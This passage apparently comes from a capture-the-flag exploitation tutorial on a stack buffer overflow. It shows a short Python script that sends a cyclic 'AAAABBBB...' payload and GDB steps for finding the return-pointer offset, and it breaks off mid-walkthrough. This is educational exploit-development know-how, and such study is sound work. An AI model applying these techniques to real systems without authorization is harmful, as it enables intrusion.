 Now to debug it to find where the return pointer should go in the payload.

But first, let's tweak our payload a little bit to make it easier to identify the offset in GDB.

```python
p = getp()

payload = ''
for i in range(26):
    payload += chr(0x41+i)*4

p.sendline(payload)

p.interactive()
```

This will generate us a payload in the format of `AAAABBBBCCCC...`.

Next, we will change the line `DEBUG = False` to `DEBUG = True`.

Run the script, then in a new window, let's attach gdb to it.

Just run `gdb` and enter: `target remote localhost:1234`.

Next, let's set a breakpoint at main with: `b main`.  Then enter: `continue` to run to the breakpoint.

Once we hit the breakpoint, I like to run `layout asm` to view the disassembly and find where return happens (this is what we're most interested in).


```
│0x80485d7 <main+239>    add    esp,0x10    │
│0x80485da <main+242>    leave              │
│0x80485db <main+243>    ret                │
│0x80485dc <main+244>    nop                │
```

Ok, this looks like the end of the function.  Let's set our next breakpoint here: `b * 0x80485da`.  Then, exit asm view with `CTRL+X` and `A`.

Then run `continue`.

Let's step one more time so that `leave` gets executed.  To step, just enter `ni` (next instruction).
